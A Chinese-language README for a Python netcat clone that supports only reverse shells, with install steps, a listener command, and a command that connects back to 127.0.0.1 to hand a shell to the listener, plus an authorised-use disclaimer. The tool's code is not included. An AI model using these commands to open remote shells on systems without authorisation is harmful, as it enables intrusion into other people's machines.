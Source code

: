 # python版nc

## 介绍

1. 使用socket建立网络传输
2. 解决了tcp粘包问题
3. 仅支持反弹操作

## 安装

环境

```
python >= 3.7
windows/linux
```

安装

````
git clone https://github.com/yigexioabai/python_nc.git
cd 
python_nc
````

## 使用

监听

```
python3 nc.py -p 5656
```

反弹

```
python3 nc.py -r 127.0.0.1 -p 5656 
```

此时监听方收到反弹的shell

![image-20221016232906135](http://rju86gn6n.hn-bkt.clouddn.com/img/image-20221016232906135.png)

退出

```
exit
```

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。